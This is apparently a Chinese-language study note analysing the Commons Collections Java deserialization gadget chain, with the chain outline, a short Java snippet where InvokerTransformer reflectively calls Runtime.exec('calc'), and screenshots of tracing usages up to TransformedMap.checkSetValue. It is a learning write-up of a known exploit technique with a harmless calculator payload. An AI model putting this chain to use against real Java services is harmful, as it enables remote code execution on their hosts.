# cc链的跟踪

```
参考：https://mp.weixin.qq.com/s/J_YeNkLN6KYTCVDYFh1dvQ
commons-collections 	
    Gadget chain:
		ObjectInputStream.readObject()
            AnnotationInvocationHandler.readObject())
                MapEntry#setValue
                    TransformedMap#checkSetValue
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                                  Runtime.class
                              InvokerTransformer.transform()
                                  getRuntime().exec("calc");
                                  Class.getMethod()
                                  Runtime.getRuntime()
                                  Runtime.exec()
```

### 先分析方法

全局搜索InvokerTransformer



用到的方法



有三个参数



### 简单测试

会执行计算器




观察InvokerTransformer路径


### 方法命令执行

新建类 参数的对应关系



transform方法





```java
新建类
Runtime r = Runtime.getRuntime();
new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}).transform(r);
----------------------------------------
Class cls = input.getClass();
Method method = cls.getMethod(iMethodName, iParamTypes);
return method.invoke(input, iArgs);
-------------------------------------------
参数传递
input=r=Runtime.getruntime()
iMethodName=exec
iParamTypes=new Class[]{String.class}
iArgs=new Object[]{"calc"}
------------------------------
Class cls = Runtime.getruntime().getClass();
Method method = cls.getMethod(exec,new Class[]{String.class});
return method.invoke(Runtime.getruntime(), new Object[]{"calc"});

```

## 分析链 谁可以调用transform 从下往上分析

选中方法 右键 寻找用法 发现 checkSetValue调用过



继续查找用法



继续查找用法



这里需要环境关系加载个依赖










